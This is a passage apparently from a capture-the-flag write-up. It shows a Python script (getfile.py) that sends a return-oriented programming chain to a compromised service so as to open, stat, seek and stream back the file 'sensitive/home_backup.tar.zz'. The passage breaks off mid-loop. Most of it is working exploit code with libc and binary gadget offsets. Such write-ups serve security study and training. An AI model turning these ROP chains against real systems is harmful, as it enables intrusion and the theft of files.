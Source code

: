Ah, there's a file `home_backup.tar.zz` which isn't in the release package we received. So, I wrote another "ROP loop" to dump the file ([`getfile.py`](files/stage4/getfile.py)):

```python
@dataclass
class Data:
    data: bytes

def send_rop(rop):
    ropdata = b""
    flat_roploop = flat(roploop)
    offset = 0x200
    def add_data(x):
        nonlocal ropdata
        if isinstance(x, Data):
            addr = ropspace + offset + len(ropdata)
            ropdata += x.data
            return addr
        else:
            return x

    rop = flat(rop, preprocessor=add_data)
    maxlen = offset - len(flat_roploop)
    assert len(rop) <= maxlen, "increase offset to at least %d" % (len(rop) + len(flat_roploop))
    while len(rop) < maxlen:
        # ret
        rop += p64(libcbase + 0x0007602d)
    rop += flat_roploop + ropdata
    s.send(rop)

outf = open("home_backup.tar.zz", "ab")
cursize = outf.tell()

send_rop([
    # open(filename, O_RDONLY)
    pop_rdi, Data(b"sensitive/home_backup.tar.zz\0"),
    pop_rsi, 0,
    exebase + 0x22d0,
    # fstat(7, dataspace)
    pop_rdi, 7,
    pop_rsi, dataspace,
    exebase + 0x56d0,
    # lseek(7, pos, 0)
    pop_rdi, 7,
    pop_rsi, cursize,
    pop_rdx_rcx_rbx, 0, 0, 0,
    libcbase + 0x000000000010e130,
    # write(5, dataspace, rax+1)
    pop_rdi, 5,
    pop_rsi, dataspace,
    pop_rdx_rcx_rbx, 0x90, 0, 0,
    exebase + 0x20c0,
    # write(5, "__END_DATA__", 12)
    pop_rdi, 5,
    pop_rsi, Data(b"__END_DATA__"),
    pop_rdx_rcx_rbx, 12, 0, 0,
    exebase + 0x20c0,
])
stat = s.recvuntil(b"__END_DATA__", drop=True)
log.info("stat: %s", stat.hex())
size, = struct.unpack_from("<Q", stat, 0x30)
log.info("filesize: %d", size)

while 1:
```